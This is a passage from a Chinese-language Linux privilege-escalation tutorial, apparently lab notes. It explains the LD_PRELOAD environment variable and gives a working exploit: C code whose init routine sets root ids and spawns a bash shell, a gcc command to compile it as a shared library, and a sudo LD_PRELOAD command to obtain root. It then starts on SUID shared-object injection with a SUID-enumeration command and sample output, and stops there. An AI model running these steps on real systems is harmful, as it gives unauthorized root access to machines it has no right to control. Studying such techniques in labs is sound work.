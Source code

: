 ```

留意```LD_PRELOAD```这个环境变量

>LD_PRELOAD是Linux系统的一个环境变量，它可以影响程序的运行时的链接（Runtime linker），它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，我们可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面，我们也可以以向别人的程序注入程序，从而达到特定的目的。

## 如何利用？

### 1. 把下面代码保存成文件x.c
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

### 2. 编译成一个动态链接库

> gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles

### 3. 连接上面的动态链接库，执行一个sudo -l下出现的命令，提权到root

> sudo LD_PRELOAD=/tmp/x.so apache2

# 9. SUID(共享对象注入)

总的思路就是查找到有缺失共享动态库文件的SUID（需要满足目标路径可写），我们自定义这个动态链接库，把提权代码写在里面。当执行SUID时会调用这个动态链接库，提权代码就被执行了，我们拿到root权限。

## 如何利用？

### 1.查找所有SUID
> find / -type f -perm -04000 -ls 2>/dev/null

```
TCM@debian:/tmp$ find / -type f -perm -04000 -ls 2>/dev/null
809081   40 -rwsr-xr-x   1 root     root        37552 Feb 15  2011 /usr/bin/chsh
812578  172 -rwsr-xr-x   2 root     root       168136 Jan  5  2016 /usr/bin/sudo
810173   36 -rwsr-xr-x   1 root     root        32808 Feb 15  2011 /usr/bin/newgrp
812578  172 -rwsr-xr-x   2 root     root       168136 Jan  5  2016 /usr/bin/sudoedit
809080   44 -rwsr-xr-x   1 root     root        43280 Jun 18  2020 /usr/bin/passwd
809078   64 -rwsr-xr-x   1 root     root        60208 Feb 15  2011 /usr/bin/gpasswd
809077   40 -rwsr-xr-x   1 root     root        39856 Feb 15  2011 /usr/bin/chfn
816078   12 -rwsr-sr-x   1 root     staff        9861 May 14  2017 /usr/local/bin/suid-so
816762    8 -rwsr-sr-x   1 root     staff        6883 May 14  2017 /usr/local/bin/suid-env
816764    8 -rwsr-sr-x   1 root     staff        6899 May 14  2017 /usr/local/bin/suid-env2
815723  948 -rwsr-xr-x   1 root     root       963691 May 13  2017 /usr/sbin/exim-4.84-3
832517    8 -rwsr-xr-x   1 root     root         6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
832743  212 -rwsr-xr-x   1 root     root       212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
812623   12 -rwsr-xr-x   1 root     root        10592 Feb 15  2016 /usr/lib/pt_chown
473324   36 -rwsr-xr-x   1 root     root        36640 Oct 14  2010 /bin/ping6
473323   36 -rwsr-xr-x   1 root     root        34248 Oct 14  2010 /bin/ping
473292   84 -rwsr-xr-x   1 root     root        78616 Jan 25  2011 /bin/mount
473312   36 -rwsr-xr-x   1 root     root        34024 Feb 15  2011 /bin/su
473290   60 -rwsr-xr-x   1 root     root        53648 Jan 25  2011 /bin/umount
465223  100 -rwsr-xr-x   1 root     root        94992 Dec 13  2014 /sbin/mount.nfs